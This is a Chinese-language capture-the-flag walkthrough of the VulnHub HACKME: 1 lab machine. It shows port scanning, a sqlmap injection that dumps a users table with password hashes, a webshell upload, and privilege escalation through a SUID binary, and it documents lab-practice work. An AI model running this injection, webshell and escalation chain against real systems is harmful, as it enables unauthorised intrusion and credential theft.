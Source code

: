# HACKME: 1

> https://download.vulnhub.com/hackme/hackme.ova

靶场IP：`192.168.32.209`

扫描对外端口服务

```
┌──(root💀kali)-[~/Desktop]
└─# nmap -p 1-65535 -sV  192.168.32.209                                                                                                                                                                                                
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-07 02:43 EDT
Nmap scan report for 192.168.32.209
Host is up (0.00090s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.7p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.34 ((Ubuntu))
MAC Address: 00:0C:29:E1:C2:D8 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.35 seconds

```

访问80端口

![image-20220907144655823](../../.gitbook/assets/image-20220907144655823.png)

注册一个测试账号进行登录

![image-20220907145457243](../../.gitbook/assets/image-20220907145457243.png)

输入框存在SQL注入漏洞

```
POST /welcome.php HTTP/1.1
Host: 192.168.32.209
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 8
Origin: http://192.168.32.209
Connection: close
Referer: http://192.168.32.209/welcome.php
Cookie: PHPSESSID=d82p89ea990dqrg60r28uao5al
Upgrade-Insecure-Requests: 1

search=1

```

使用sqlmap进行注入，找到`superadmin/Uncrackable`

```
┌──(root💀kali)-[/tmp]
└─# sqlmap -r 1.txt  --level 5 --risk 3 --dbms=mysql -p search  -D webapphacking -T users --dump

Database: webapphacking                                                                                                                                                                                                                     
Table: users
[7 entries]
+----+--------------+------------+------------------+---------------------------------------------+
| id | name         | user       | address          | pasword                                     |
+----+--------------+------------+------------------+---------------------------------------------+
| 1  | David        | user1      | Newton Circles   | 5d41402abc4b2a76b9719d911017c592 (hello)    |
| 2  | Beckham      | user2      | Kensington       | 6269c4f71a55b24bad0f0267d9be5508 (commando) |
| 3  | anonymous    | user3      | anonymous        | 0f359740bd1cda994f8b55330c86d845 (p@ssw0rd) |
| 10 | testismyname | test       | testaddress      | 05a671c66aefea124cc08b76ea6d30bb (testtest) |
| 11 | superadmin   | superadmin | superadmin       | 2386acb2cf356944177746fc92523983            |
| 12 | test1        | test1      | test1            | 05a671c66aefea124cc08b76ea6d30bb (testtest) |
| 13 | sectest      | sectest    | sectest@test.com | e10adc3949ba59abbe56e057f20f883e (123456)   |
+----+--------------+------------+------------------+---------------------------------------------+

```

![image-20220907145959012](../../.gitbook/assets/image-20220907145959012.png)

使用superadmin用户登录，发现有上传页面。

![image-20220907150038388](../../.gitbook/assets/image-20220907150038388.png)

尝试上传webshell

![image-20220907150211270](../../.gitbook/assets/image-20220907150211270.png)

访问`/uploads`目录就可以看到已经上传成功。

![image-20220907150240018](../../.gitbook/assets/image-20220907150240018.png)

查找suid文件

```
www-data@hackme:/$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/snap/core20/1611/usr/bin/chfn
/snap/core20/1611/usr/bin/chsh
/snap/core20/1611/usr/bin/gpasswd
/snap/core20/1611/usr/bin/mount
/snap/core20/1611/usr/bin/newgrp
/snap/core20/1611/usr/bin/passwd
/snap/core20/1611/usr/bin/su
/snap/core20/1611/usr/bin/sudo
/snap/core20/1611/usr/bin/umount
/snap/core20/1611/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/1611/usr/lib/openssh/ssh-keysign
/snap/core/13425/bin/mount
/snap/core/13425/bin/ping
/snap/core/13425/bin/ping6
/snap/core/13425/bin/su
/snap/core/13425/bin/umount
/snap/core/13425/usr/bin/chfn
/snap/core/13425/usr/bin/chsh
/snap/core/13425/usr/bin/gpasswd
/snap/core/13425/usr/bin/newgrp
/snap/core/13425/usr/bin/passwd
/snap/core/13425/usr/bin/sudo
/snap/core/13425/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/13425/usr/lib/openssh/ssh-keysign
/snap/core/13425/usr/lib/snapd/snap-confine
/snap/core/13425/usr/sbin/pppd
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/pkexec
/usr/bin/traceroute6.iputils
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/at
/usr/bin/newgrp
/usr/bin/sudo
/home/legacy/touchmenot
/bin/mount
/bin/umount
/bin/ping
/bin/ntfs-3g
/bin/su
/bin/fusermount

```

直接提权成功。

![image-20220907150432426](../../.gitbook/assets/image-20220907150432426.png)
